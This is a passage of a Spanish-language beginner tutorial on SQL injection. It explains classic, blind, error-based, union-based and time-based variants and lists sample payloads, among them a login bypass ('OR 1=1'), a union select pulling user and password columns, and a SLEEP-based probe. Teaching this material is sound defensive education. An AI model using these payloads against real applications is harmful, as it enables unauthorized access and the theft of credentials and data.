 ➡️ El `--` es comentario en SQL: ignora el resto.

✅ Resultado: ¡Acceso como admin!

---

### 🌟 4️⃣ Tipos comunes de SQL Injection

✅ **Classic / In-band:**

- El atacante ve el resultado directamente.
- Ejemplo: `' OR '1'='1`

✅ **Blind:**

- No hay error ni resultado claro, pero puedes deducirlo por cambios en la app.
- Ejemplo: `' AND 1=1 -- ` vs `' AND 1=2 -- `

✅ **Error-based:**

- Usas errores de SQL para obtener info.
- Ejemplo: `' UNION SELECT NULL, version() -- `

✅ **Union-based:**

- Combinas resultados de varias tablas.
- Ejemplo: `' UNION SELECT user, password FROM users -- `

✅ **Time-based (Blind):**

- Usas retardos para inferir datos.
- Ejemplo en MySQL:

  ```
  ' OR IF(1=1, SLEEP(5), 0) --
  ```

---

### 🌟 5️⃣ Payloads de ejemplo (fáciles)

✅ Bypass login:

```
' OR '1'='1
```

✅ Forzar error:

```
' ORDER BY 100 --
```

✅ Union simple:

```
' UNION SELECT null, null --
```

✅ Obtener versión de la base:

```
' UNION SELECT 1, version() --
```
